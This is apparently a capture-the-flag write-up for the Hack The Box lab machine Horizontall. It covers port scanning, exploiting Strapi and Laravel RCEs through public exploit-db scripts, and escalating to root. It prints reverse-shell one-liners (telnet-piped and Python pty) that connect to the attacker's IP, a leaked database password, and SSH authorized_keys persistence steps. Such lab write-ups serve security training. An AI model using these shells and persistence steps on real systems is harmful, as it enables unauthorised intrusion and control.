# Horizontall

Horizontall is an easy Linux machine that was released on 28/08/2021.

**Note**: this write-up is quite short and concise as it's based on really brief notes that were taken just for convenience during the pwning of the machine. 

## Enumeration

As usual we start by performing a port scan with nmap

```
nmap -A 10.10.11.105 -p- | tee portscan.txt

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-30 18:37 EDT
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.066s latency).
Not shown: 65450 closed ports, 83 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2501.38 seconds
```

The website is using Vue.js

Taking a look at the js source files, and in particular at `http://horizontall.htb/js/app.c68eb462.js` we can find another interesting url

http://api-prod.horizontall.htb/reviews

We add api-prod.horizontall.htb to our `/etc/hosts` file 

We launch gobuster in dir mode and we discover an 'admin' page with a login form

The CMS of the API seems to be Strapi. With a bit of google-fu, we find out that we can obtain the CMS version by requesting the page `admin/init`, which returns


```json
{
  "data": {
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",
    "currentEnvironment": "development",
    "autoReload": false,
    "strapiVersion": "3.0.0-beta.17.4"
  }
}
```

Luckily, there's a RCE exploit for this version which uses CVE-2019-18818, CVE-2019-19609

 - CVE-2019-18818 -
strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js. 

 - CVE-2019-19609 -
The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function. 

https://www.exploit-db.com/exploits/50239

python3 exploit.py http://api-prod.horizontall.htb/

we can get a basic reverse shell with

`telnet 10.10.15.42 4242 | /bin/sh | telnet 10.10.15.42 4243`

Now we can copy passwd file and see that the user we want to move to is 'developer'

We can already read user.txt

To improve our shell, we add our own pub key to scrapi authorized_keys file

Now we can ssh into the machine as scrapi.

We run linpeas.sh
```
Some home ssh config file was found
/usr/share/openssh/sshd_config 

-rwsr-xr-x 1 root root 146K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable 

╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                                  
drwxr-xr-x 2 root root 4096 May 25 11:17 /etc/ldap

---
```

Let's take a look inside the myapi folder in scrapi home directory

It looks like a laravel application. 

We find a MySQL password for user developer in `/opt/strapi/myapi/config/environments/development/database.json`

`#J!:F9Zt2u`

We login into mysql and check the strapi database.
There is a table called strapi_administrator

```
mysql> SELECT * FROM strapi_administrator;
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$lMlVj43na5k/ykuJKGu8AeoGnRUGpEVme9zTsiCGwmq7LvknSthLe | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
1 row in set (0.00 sec)
```

That's just the hash of the password we set with the exploit for strapi, we don't need it.

If we run 

`netstat -tulpn | grep LISTEN`

we have a list of all the services which are listening on ports
```
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1875/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```

Ports 80 and 22 are the ones we have see from the nmap scan and are open (the address is 0.0.0.0)

The one on port 3306 is just the MySQL server.
The one running on 1337 is the one we reach with api-prod.

There's another one on port 8000. If we try to curl it from the machine we get a welcome page.
Let's create an ssh tunnel to reach this page from our local attacking machine.

We run, on our local machine:

`ssh strapi@horizontall.htb  -L 8001:localhost:8000`

where localhost is because the server we are connecting to is the same that hosts the service we want to reach on port 8000,
8000 is the port we want to be forwarded, and 8001 is the port we will use in the URL on our local browser

Now we can access the webpage from our browser at localhost:8001 and we discover that it's a Laravel web page.

We try to run gobuster but the server stops responding to our requests after a while (maybe we're being rate-limited?)

Anyway, gobuster ran long enough to show us that the 'profiles' page returns a 500

If we try to access the page, we are returned some kind of debugging page

Exploring the web page a bit we find out that the Laravel version is 8.43.0

exploit-db gives us an RCE exploit for Laravel 8.4.2, let's give it a try

https://www.exploit-db.com/exploits/49424
```
Usage:  laravel_exploit.py url path-log command

        Ex: laravel_exploit.py http(s)://pwnme.me:8000 /var/www/html/laravel/storage/logs/laravel.log 'id'

```

We need the location of the `laravel.log` file

From the debug page we can understand the the base Laravel directory is `/home/developer/myproject/`

so the log path for the script will be `/home/developer/myproject/storage/logs/laravel.log`

The complete command is

```sh
python3 laravel_exploit.py http://localhost:8001 /home/developer/myproject/storage/logs/laravel.log 'id'
```

Output:
```
Exploit...

uid=0(root) gid=0(root) groups=0(root)
```

Ok, nice, we have RCE as root on the machine and we can immediately get root.txt

```sh
python3 laravel_exploit.py http://localhost:8001 /home/developer/myproject/storage/logs/laravel.log 'cat /root/root.txt'

```
To get a reverse shell what I did is create a script in a temp directory with the following code
```sh
export RHOST="10.10.15.42";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
and then calling 
```sh
python3 laravel_exploit.py http://localhost:8001 /home/developer/myproject/storage/logs/laravel.log 'bash /tmp/tmp.QcRAAzgyjr/shell.sh'
```

It took a couple of tries launching the same exact command to have a shell, not sure why.

Unfortunately the connection closes after a while, but to get persistent access we can just add our SSH id_rsa.pub file into

`/root/.ssh/authorized_keys`



